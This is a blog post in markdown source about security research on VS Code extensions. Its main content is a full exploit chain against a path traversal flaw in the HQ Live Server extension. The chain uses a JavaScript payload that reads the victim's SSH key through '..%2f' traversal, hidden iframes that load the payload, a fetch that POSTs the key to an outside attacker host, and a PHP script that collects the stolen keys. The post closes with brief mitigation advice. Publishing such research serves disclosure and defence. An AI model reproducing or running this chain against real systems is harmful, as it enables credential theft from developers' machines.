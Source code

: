 ```yaml
---
layout: post
title:  "My Journey in Uncovering Vulnerabilities in VS Code Extensions: Protecting Your Supply Chain from Cyber Threats"
date:   2023-02-28 13:25:13 -0400
cover: post-image6.png
categories: vscode extension security
description: In this blog post, I’ll share my journey in identifying, analyzing, and testing VS Code extensions from a security breach perspective, and the creative recommendations I came up with to mitigate potential risks.
---
```


# Introduction

As a passionate developer, I've always been a fan of Visual Studio Code (VS Code). This popular text editor boasts over 14 million active users worldwide and offers a wide range of third-party extensions to enhance its functionality. However, I couldn't help but wonder about the potential security risks these extensions might pose if they're not thoroughly tested and validated. In this blog post, I'll share my journey in identifying, analyzing, and testing VS Code extensions from a security breach perspective, and the creative recommendations I came up with to mitigate potential risks.

# Why VS Code Caught My Eye as a Prime Target for Cyber Attacks

The immense user base of VS Code makes it an attractive target for malicious actors. Ensuring the security of third-party extensions is challenging, as developer machines often contain sensitive credentials and access to critical parts of the codebase. Moreover, these extensions run with user privileges and without sandboxing, making it easier for malicious actors to install harmful programs. As security experts warn about potential threats, it becomes crucial to scrutinize the legitimacy and security of VS Code extensions.

# My Ingenious Three-Phase Approach to Identifying and Mitigating Vulnerabilities

To assess the security of VS Code extensions, I devised a creative three-phase approach:

- Extension Selection: I handpicked extensions based on official statistics and community feedback.
- Vulnerability Identification: I thoroughly analyzed the selected extensions for potential security vulnerabilities.
- Vulnerability Exploitation: I attempted to exploit identified vulnerabilities, determining their impact and validating mitigation strategies.


# My Findings: Vulnerabilities and the Art of Exploitation

During my research, I came across a few articles that highlighted various vulnerabilities in extensions, ranging from path traversal to code execution [1][2]. Intrigued, I decided to focus on identifying similar vulnerabilities and devising ways to exploit them. I discovered that a common issue among these extensions is unsanitized inputs.

I found a vulnerability in the HQ Live Server extension, which allowed me to access sensitive files outside the server's root folder. To exploit this vulnerability and access the developer's SSH key, I designed a payload that would bypass challenges like cross-site scripting (XSS) protection and the same-origin policy. I created a multi-step process that involved downloading and executing the payload on the victim's system.

Here's the code snippet for creating and downloading my payload:

<pre> <code>const payload = `&lt;body&gt; &lt;script&gt; 
    for (let n = 0; n < ${maxNesting}; n++) {
    fetch('http://localhost:8080/'+'..%2f'.repeat(n)+'.ssh/id_rsa.pub')
    .then((res) => {if (res.status === 200) {
        res.text().then((data) => window.parent.postMessage(data, '*'));
    }
}); }&lt;/scr`+"ipt&gt;&lt;/bo"+"dy&gt;";

const fileName = `file_${Math.random()}.html`;
const a = document.createElement('a');
a.setAttribute('href', 'data:text/plain;charset=utf-8,' + encodeURIComponent(payload));
a.setAttribute('download', fileName);
a.style.display = 'none';
document.body.appendChild(a);
a.click();
document.body.removeChild(a);
</code>
</pre>

Next, I loaded the downloaded payload in an iframe:

<pre>
setTimeout(() => {
        for (let n = 0; n < maxNesting; n++) {
              const iframe = document.createElement('iframe');
              iframe.setAttribute('src', http://localhost:8080/${'..%2f'.repeat(n)}Downloads/${fileName});
iframe.setAttribute('style', 'width: 0px; height: 0px;')
document.body.appendChild(iframe);
}
}, 2000);
</pre>


Finally, I sent the obtained key to a malicious server:

<pre>
window.addEventListener('message', (event) => {
          const formData = new FormData();
          formData.append('data', event.data);
          fetch('https://welcometomywebpage.000webhostapp.com/data.php', {
            "method": "POST",
            "body": formData   
          });
      }, false);

</pre>

I also crafted server-side PHP code to receive the key and save it:
<pre>
&lt;?php
// Check if form is submitted with POST method
if ($_SERVER["REQUEST_METHOD"] == "POST") {

  // Get the data from the form
  $key = $_POST["data"];

  // Create a new file with a unique name
  $filename =  "details.txt";
  if (file_exists($filename)) {
		$handle = fopen($filename, 'a'); // open file in append mode
	} else {
		$handle = fopen($filename, 'w'); // create new file
	}

  // Open the file for writing
  $handle = fopen($filename, "a");

  // Write the data to the file
  fwrite($handle, "Key: \n$key\n");

  // Close the file
  fclose($handle);

  // Output a success message
  echo "Data saved to file!";
}
?&gt;
</pre>

To exploit the vulnerability, an attacker would follow these steps:

    Open VS Code and activate the vulnerable extension.
    Click on a malicious link provided by the attacker (e.g., https://welcometomywebpage.000webhostapp.com/).

# Paving the Way for a More Secure Future

My research emphasizes the importance of vigilantly testing and validating VS Code extensions to identify potential security vulnerabilities. As cyber threats evolve, it's crucial to adopt proactive measures to safeguard your supply chain.

I recommend automating the vulnerability testing process using available tools and custom test cases. This approach enables developers to swiftly identify and address security vulnerabilities before they pose a threat.

In conclusion, the security of third-party extensions must not be overlooked, as they can introduce significant risks to users and their systems. By identifying vulnerabilities and implementing robust mitigation strategies, developers can create a safer and more secure development environment.

## References:

[1] Trail of Bits. (2023). Escaping the VSCode extension sandbox. Retrieved from https://blog.trailofbits.com/2023/02/21/vscode-extension-escape-vulnerability/

[2] Snyk. (n.d.). Visual Studio Code extension security vulnerabilities deep dive. Retrieved from https://snyk.io/blog/visual-studio-code-extension-security-vulnerabilities-deep-dive/

